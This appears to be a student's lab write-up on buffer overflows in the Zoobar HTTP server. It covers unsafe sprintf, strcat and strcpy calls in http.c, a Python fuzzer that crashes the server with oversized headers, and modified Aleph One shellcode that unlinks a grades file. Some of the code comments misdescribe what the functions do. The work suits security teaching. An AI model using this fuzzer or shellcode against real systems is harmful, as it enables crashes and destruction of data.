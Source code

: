 ## Zoobar HTTP Server vulnerabilities

I first started to look for any vulnerable functions within the program that are known to be vulnerable to buffer overflows. OWASP states the following: "C library functions such as strcpy (), strcat (), sprintf () and vsprintf () operate on null terminated strings and perform no bounds checking." So these particular functions were the ones I was interested in if they were being used by the program.

[http.c:165] 
The program allocates 8192 bytes for the variable 'buf' and 512 bytes for the variable 'envvar'. The envvar variable can be overwritten by the sprintf function, because it does not perform any bounds checking for the buffer size.

    static char buf[8192];   // Here the program allocates the 8192 bytes for the variable 'buf'
    char envvar[512]; // Here it allocates 512 bytes for the variable 'envvar'
    ...
    ...
    ...
    sprintf(envvar, "HTTP_%s", buf); // Here sprintf will copy the content of envvar to buf

If the input exceeds the 512 byte limit it will overflow the buffer and we as an attacker will have control of the execution of the program. There are also other functions that does not perform bound checking and are prone to buffer overflow related attacks. 

------

[http.c:282]
In the 'http_serve' function the program allocates 1024 bytes for a variable 'pn'. Then it uses the vulnerable 'strcat' function that does not perform bounds checking when concatenating to destination 'name'.

    void http_serve(int fd, const char *name)
    {
    void (*handler)(int, const char *) = http_serve_none;
    char pn[1024];
    struct stat st;

    getcwd(pn, sizeof(pn));
    setenv("DOCUMENT_ROOT", pn, 1);

    strcat(pn, name); // Here it uses the strcat function to append a copy of the source string to the destination variable 'name'

If we as an attacker provide more than the allocated 1024 bytes in the buffer for the 'pn' variable we can overflow the buffer.

------

[http.c:344]
In the 'dir_join' function the program uses another vulnerable function - strcpy, which does not check buffer lengths and just copies given input into the buffer.

    strcpy(dst, dirname); // Here the program uses strcpy function to copy the 'dst' variable input into 'dirname' variable

------

[http.c:347]
In the 'dir_join' function the program also uses 'strcat', which does not check buffer lengths and just concatenates user input as is.

    strcat(dst, filename); // Here the program uses strcat function to copy the 'dst' variable input into 'filename' variable

------

## Stack canaries

------

## Exploits

For the second vulnerability we chose to exploit was how the zoobar HTTP server handles HTTP requests headers. If we as an attacker create an arbitrary header that exceeds the 'envvar' variable 512 bytes, we successfully corrupt the memory of the zoobar process.

    # Fuzzed HTTP Requests trying to find
    # the maximum size that the server
    # can handle

    import sys, socket, time
    
    # Use in the form "python httpfuzz.py host port"

    host = sys.argv[1] # Recieve IP from user
    port = int(sys.argv[2]) # Recieve Port from user

    length = 100 # Initial length of 100 A's

    while (length < 11000): # Stop once we've tried up to 3000 length
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Declare a TCP socket
        client.connect((host, port)) # Connect to user supplied port and IP address

        command = "GET / HTTP/1.1\r\nHost: " + host + "HTTP_" + length * "B" + ": foo" + "\r\nConnection: Close\r\n\r\n"
        client.send(command) # Send the user command with a variable length name
        data = client.recv(1024) # Recieve Reply
        client.close() # Close the Connection
        time.sleep(2)
        print "Length Sent: " + str(length) # Output length of the request
        length += 100 # Try again with an increased length

The memory corruption happens after we have sent little over 500 bytes:

    Length Sent: 500
    Traceback (most recent call last):
      File "fuzzer.py", line 20, in <module>
        data = client.recv(1024) # Recieve Reply
    socket.error: [Errno 54] Connection reset by peer

If we look at the status of dmesg, we can see the following:

    [ 9611.046876] zookfs-exstack[3471]: segfault at 42424242 ip 42424242 sp bfffde00 error 14

------

## Unlinking grades.txt

For the buffer overflow exploit we were required to modify the Aleph One's shellcode in a way that it will use the Linux syscall unlink that will remove the /home/httpd/grades.txt file from the machine. Below we have provided the modified shellcode.S file to achieve this goal:

    #include <sys/syscall.h>

    #define STRING	"/home/httpd/grades.txt" /* Provide the filepath to the grades.txt file */
    #define STRLEN	22 /* Length of the string for the target file */
    #define ARGV	(STRLEN+1)
    #define ENVP	(ARGV+4)

    .globl main
    	.type	main, @function

     main:
    	jmp	calladdr

     popladdr:
    	popl	%esi
    	movl	%esi,(ARGV)(%esi)	/* set up argv pointer to pathname */
    	xorl	%eax,%eax		/* get a 32-bit zero value */
    	movb	%al,(STRLEN)(%esi)	/* null-terminate our string */
    	movl	%eax,(ENVP)(%esi)	/* set up null envp */

    	movb	$SYS_unlink,%al		/* syscall arg 1: syscall for unlink */
    	movl	%esi,%ebx		/* syscall arg 2: string pathname */
    	leal	ARGV(%esi),%ecx		/* syscall arg 2: argv */
    	leal	ENVP(%esi),%edx		/* syscall arg 3: envp */
    	int	$0x80			/* invoke syscall */

    	xorl	%ebx,%ebx		/* syscall arg 2: 0 */
    	movl	%ebx,%eax
    	inc	%eax			/* syscall arg 1: SYS_exit (1), uses */
        					/* mov+inc to avoid null byte */
    	int	$0x80			/* invoke syscall */

     calladdr:
    	call	popladdr
    	.ascii	STRING

------
